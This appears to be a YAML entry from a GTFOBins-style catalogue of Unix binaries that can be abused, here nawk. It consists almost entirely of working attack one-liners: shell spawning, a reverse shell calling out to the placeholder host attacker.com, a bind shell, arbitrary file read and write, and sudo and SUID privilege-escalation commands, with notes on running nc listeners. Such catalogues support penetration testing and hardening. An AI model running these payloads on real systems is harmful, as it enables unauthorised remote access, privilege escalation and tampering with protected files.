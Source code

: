 functions:
  shell:
    - code: nawk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        nawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        nawk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./nawk '//' "$LFILE"
  sudo:
    - code: sudo nawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./nawk 'BEGIN {system("/bin/sh")}'
---

